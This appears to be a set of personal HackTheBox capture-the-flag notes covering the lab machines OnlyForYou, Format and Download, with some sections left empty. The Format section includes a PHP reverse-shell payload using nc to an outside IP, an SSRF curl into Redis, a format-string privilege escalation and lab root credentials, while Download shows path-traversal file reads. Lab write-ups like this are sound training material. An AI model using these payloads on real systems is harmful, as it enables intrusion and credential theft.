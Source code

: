 ## Agile
### Reco
### Weaponisation
### Exploitation
### User flag
### Root flag
![](https://hackmd.io/_uploads/H1N6hTich.png)

## OnlyForYou
> To obtain access we must read various files on the web using an LFI to find a vulnerability in the form. Using the form we can run CERs. To move to a user we must perform a Cypher Injection on an internal website to get the password. And for the escalation of privileges we must modify a file, create a tar.gz and upload it to the Gogs web intera and then download the file using pip3 and thus be able to modify the bash to SUID permissions.
### Reco
1. nmap 10.10.11.210 -sVC
2. dir busting
    - there is a subdomain
    ![](https://hackmd.io/_uploads/rytoaqich.png)
    - add it also to the /etc/hosts

### Weaponisation
1. beta subdomain
    - allows us to download source code
        ![](https://hackmd.io/_uploads/BklH0qoqh.png)
        - When analyzing it we realize that in the / download path if in the parameter image start with 2 points then launch a message that says Hacking detected and makes us a redirect to / list.
            ![](https://hackmd.io/_uploads/HkT9C5iq3.png)
### Exploitation
1. BurpSuite - LFI
    - 
### User flag
### Root flag

## Format
### Reco
1. nmap: `nmap -sVC 10.10.11.213`
    - 22 SSH
    - 80,3000 HTTP
2. add microblog.htb:3000 to /etc/hosts
3. FUZZING - subdomain enumeration
    - app, sunny
        - add these both to /etc/hosts also
4. Website
    - "Contribute here!" in footer -> source code of app.microblog.htb
### Weaponisation
1. LFI
    - we can use ID parameter for LFI
        - create a blog -> edit blog
            - capture req to add the H1/text
                - we can edit the ID paramater for LFI
                    ![](https://hackmd.io/_uploads/SkOVqn0q2.png)
### Exploitation
1. PRO account
    - dashboard page and source code -> something about PRO 
    - assign pro to our session using SSRF
> curl -X "HSET" http://microblog.htb/static/unix:%2fvar%2frun%2fredis%2fredis.sock:testy%20pro%20true%20a/b

- insert the username of registration
2. Uploading reverse shell
    - use this to get RS on target machine + change your blog name
> id=/var/www/microblog/<your_blog_name>/uploads/rev.php&header=<%3fphp+echo+shell_exec("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.14.30+443+>/tmp/f")%3b%3f>
![](https://hackmd.io/_uploads/rJj-j309h.png)

- after visiting the /uploads/rev.php we will get our RS
### User flag
1. Connect to Redis-cli
    - socks config file
        - redis-cli -s /var/run/redis/redis.sock
        - keys *
            ![](https://hackmd.io/_uploads/SyLwo205h.png)
        - hgetall cooper.dooper
            - `cooper:zooperdoopercooper`
2. SSH connect to obtain user flag
### Root flag
1. trying `sudo -l`
    - we can run /usr/bin/licence
        - this file is also readable
            - [Python format function vuln](https://web.archive.org/web/20230624063634/https://podalirius.net/en/articles/python-format-string-vulnerabilities/)
2. Vuln
    - register a user using redis-cli and use the vuln in username to print all variables
        - `HSET test2 username test1 password test first-name` 
        - `{license.__init__.__globals__} last-name test pro false`
            ![](https://hackmd.io/_uploads/S1LOThRq3.png)
    - run /usr/bin/licence as sudo to provision the licence of our "test2" user
        - `sudo /usr/bin/license -p test2`
            ![](https://hackmd.io/_uploads/Hy_na3Rc2.png)
            - we obtained SSH credentials for root
                - `root:unCR4ckaBL3Pa$$w0rd`
3. SSH login as a root to obtain root flag

## Download
### Reco
- `sudo nmap -sVC <IP>`
    - ![](https://hackmd.io/_uploads/SkZBpNRo3.png)
    - 22 SSH
    - 80 HTTP
        - redirect -> add download.htb to /etc/hosts
- website analysis
    - website for uploading && downloading large files
    - upload subsite
        - download.htb/files/upload
    - login && register subsite
        - downlaod.htb/auth/login
        - download.htb/auth/register
### Weaponisation
1. while trying to upload a file with BurpSuite, I found out tha it is an **Express** based website
        - upload the file -> we obtain unique UID and link
            ![](https://hackmd.io/_uploads/H1ZfZSRo3.png)
            - click "Copy Link" button -> small popup window followed by an alert
                - it is a file called copy.js (contains the code for the function, nothing vulnerable)
            - there is also a JWT token withing the download + a .sig cooke
                ![](https://hackmd.io/_uploads/HyJBZrAj3.png)
                - decoded token: 
                `{"flashes":{"info":[],"error":[],"success":[]}}`
    - Download feature
        - redirects us to the link:
            - `http://download.htb/files/download/0623ba64-6749-48a4-9a08-a58658b74852`
                - this could be used to download other files...
                - uploads are probably stored within a /downloads or /uploads folder on the machine
                    - basic LFI with some Express file names...
                        - `..%2fapp.js` worked...
                       ![](https://hackmd.io/_uploads/HJMYk8Cjn.png)
                             - there is package.json as part of the folders too:
 `{
  "name": "download.htb",
  "version": "1.0.0",
  "description": "",
  "main": "app.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "dev": "nodemon --exec ts-node --files ./src/app.ts",
    "build": "tsc"
  },
  "keywords": [],
  "author": "wesley",
  "license": "ISC",
  "dependencies": {
    "@prisma/client": "^4.13.0",
    "cookie-parser": "^1.4.6",
    "cookie-session": "^2.0.0",
    "express": "^4.18.2",
    "express-fileupload": "^1.4.0",
    "zod": "^3.21.4"
  },
  "devDependencies": {
    "@types/cookie-parser": "^1.4.3",
    "@types/cookie-session": "^2.0.44",
    "@types/express": "^4.17.17",
    "@types/express-fileupload": "^1.4.1",
    "@types/node": "^18.15.12",
    "@types/nunjucks": "^3.2.2",
    "nodemon": "^2.0.22",
    "nunjucks": "^3.2.4",
    "prisma": "^4.13.0",
    "ts-node": "^10.9.1",
    "typescript": "^5.0.4"
  }
}`
                - AUTHOR: **WESLEY**
2. enumerating LOGIN 
    - create a test user && login -> download_session cookie has some more information (decoded): 
    `{"flashes":{"info":[],"error":[],"success":[]},"user":{"id":16,"username":"test123"}}`
    - .sig token is also different
        - signature of a cookie, changes by the extension
3. VULN for COOKIE on websites running Express
    - [cookie-monster](https://github.com/DigitalInterruption/cookie-monster)
    - [nodeJS Express](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nodejs-express)
### Exploitation
1. Blind injection - Cookie monster Brute Force
Lets sum up all facts we obtained:
    - **.sig** ... key for the token structure, needed fot Cookie Monster
    - User is **wesley**, hashes are UNsalted and used directly for auth -> brute forcing could be a way
    - there is **SQL query** that is somehow injectable
    - **cookies are not validated** any way -> it checks whether a `true` condition is returned from `findFirst` from the `prisma` API module...Blind Injection by redirect could be possibility



